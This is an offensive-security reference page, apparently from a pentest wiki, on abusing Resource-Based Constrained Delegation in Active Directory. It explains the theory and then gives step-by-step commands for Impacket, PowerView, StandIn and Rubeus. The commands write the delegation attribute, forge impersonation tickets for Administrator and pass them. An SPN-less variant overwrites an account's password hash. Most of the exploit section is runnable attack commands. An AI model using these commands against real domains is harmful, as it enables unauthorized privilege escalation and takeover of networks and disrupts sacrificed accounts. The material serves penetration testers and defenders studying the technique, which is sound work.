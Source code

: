 ## Thoery
If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of another object (e.g. the `GenericWrite` ACE, see Abusing ACLs), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.
!!! note
    Machine accounts can edit their own `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, hence allowing RBCD attacks on relayed machine accounts authentications.

For this attack to work, the attacker needs to populate the target attribute with the SID of an account that Kerberos can consider as a service. A service ticket will be asked for it. In short, the account must be either (see Kerberos tickets for more information about the following):

- a user account having a `ServicePrincipalName` set
- an account with a trailing `$` in the `sAMAccountName` (i.e. a computer accounts)
- any other account and conduct SPN-less RBCD with U2U (User-to-User) authentication

The common way to conduct these attacks is to create a computer account. This is usually possible thanks to a domain-level attribute called `MachineAccountQuota` that allows regular users to create up to 10 computer accounts.

Then, in order to abuse this, the attacker has to control the account (A) the target object's (B) attribute has been populated with. Using that account's (A) credentials, the attacker can obtain a ticket through S4U2Self and S4U2Proxy requests, just like constrained delegation with protocol transition.

In the end, an RBCD abuse results in a Service Ticket to authenticate on the target service (B) on behalf of a user. Once the final Service Ticket is obtained, it can be used with Pass-the-Ticket to access the target service (B).

For more information, check this [article](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
## Exploit
=== "UNIX-like"
    **Step 1: edit the target's "rbcd" attribute (DACL abuse)**

    Impacket's rbcd.py script (Python) can be used to read, write or clear the delegation rights, using the credentials of a domain user that has the needed permissions.
    ```bash
    # Read the attribute
    rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action 'read' 'domain'/'PowerfulUser':'Password'

    # Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity
    rbcd.py -delegate-from 'controlledaccount' -delegate-to 'target$' -dc-ip 'DomainController' -action 'write' 'domain'/'PowerfulUser':'Password'
    ```
    **Step 2: obtain a ticket (delegation operation)**

    Once the attribute has been modified, the Impacket script getST (Python) can then perform all the necessary steps to obtain the final "impersonating" ST (in this case, "Administrator" is impersonated but it can be any user in the environment)
    ```bash
    getST.py -spn 'cifs/target' -impersonate Administrator -dc-ip 'DomainController' 'domain/controlledaccountwithSPN:SomePassword'
    ```
    **Step 3: Pass-the-ticket**

    Once the ticket is obtained, it can be used with pass-the-ticket.
=== "Windows"
    **Step 1: edit the target's "rbcd" attribute (DACL abuse)**

    The PowerShell ActiveDirectory module's cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object (in this case, to modify the delegation rights).
    ```bash
    # Read the security descriptor
    Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount

    # Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
    Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'controlledaccountwithSPN'
    ```
    PowerSploit's PowerView module is an alternative that can be used to edit the attribute.

    ```bash
    # Obtain the SID of the controlled account with SPN (e.g. Computer account)
    $ComputerSid = Get-DomainComputer "controlledaccountwithSPN" -Properties objectsid | Select -Expand objectsid

    # Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)

    # set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
    Get-DomainComputer "target$" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    ```

    FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is another alternative in C# (.NET assembly) to edit the attribute (source).
    ```bash
    # Obtain the SID of the controlled account with SPN (e.g. Computer account)
    StandIn.exe --object samaccountname=controlledaccountwithSPNName

    # Add the object to the msDS-AllowedToActOnBehalfOfOtherIdentity of the targeted computer
    StandIn.exe --computer "target" --sid "controlledaccountwithSPN's SID"
    ```
    **Step 2: obtain a ticket (delegation operation)**

    Rubeus can then be used to request the TGT and "impersonation ST", and inject it for later use.
    ```bash
    # Request a TGT for the current user
    Rubeus.exe tgtdeleg /nowrap
    # OR - Request a TGT for a specific account
    Rubeus.exe asktgt /user:"controlledaccountwithSPN" /aes256:$aesKey /nowrap

    # Request the "impersonation" service ticket using RC4 Key
    Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"cifs/target" /domain:"domain" /user:"controlledaccountwithSPN" /rc4:$NThash
    # OR - Request the "impersonation" service ticket using TGT Ticket of the controlledaccountwithSPN
    Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"host/target" /altservice:cifs,ldap /domain:"domain" /user:"controlledaccountwithSPN" /ticket:$kirbiB64tgt
    ```
    The NT hash and AES keys can be computed as follows.

    ```bash
    Rubeus.exe hash /password:$password
    Rubeus.exe hash /user:$username /domain:"domain.local" /password:$password
    ```
    **Step 3: Pass-the-ticket**

    Once the ticket is injected, it can natively be used when accessing the service.

### RBCD on SPN-less users
The technique is as follows:

1. Obtain a TGT for the SPN-less user allowed to delegate to a target and retrieve the TGT session key.
2. Change the user's password hash and set it to the TGT session key.
3. Combine S4U2self and U2U so that the SPN-less user can obtain a service ticket to itself, on behalf of another (powerful) user, and then proceed to S4U2proxy to obtain a service ticket to the target the user can delegate to, on behalf of the other, more powerful, user.
4. Pass the ticket and access the target, as the delegated other

!!! note
    While this technique allows for an abuse of the RBCD primitive, even when the `MachineAccountQuota` is set to 0, or when the absence of LDAPS limits the creation of computer accounts, it requires a sacrificial user account. In the abuse process, the user account's password hash will be reset with another hash that has no known plaintext, effectively preventing regular users from using this account.
=== "UNIX-like"
    From UNIX-like systems, Impacket (Python) scripts can be used to operate that technique
    ```bash
    # Obtain a TGT through overpass-the-hash to use RC4
    getTGT.py -hashes :$(pypykatz crypto nt 'SomePassword') 'domain'/'controlledaccountwithoutSPN'

    # Obtain the TGT session key
    describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'

    # Change the controlledaccountwithoutSPN's NT hash with the TGT session key
    changepasswd.py -newhashes :TGTSessionKey 'domain'/'controlledaccountwithoutSPN':'SomePassword'@'DomainController'

    # Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
    KRB5CCNAME='TGT.ccache' getST.py -u2u -impersonate "Administrator" -spn "host/target.domain.com" -k -no-pass 'domain'/'controlledaccountwithoutSPN'

    # The password can then be reset to its old value (or another one if the domain policy forbids it, which is usually the case)
    smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash 'domain'/'controlledaccountwithoutSPN'@'DomainController'
    ```
    After these steps, the final service ticket can be used with Pass-the-ticket.
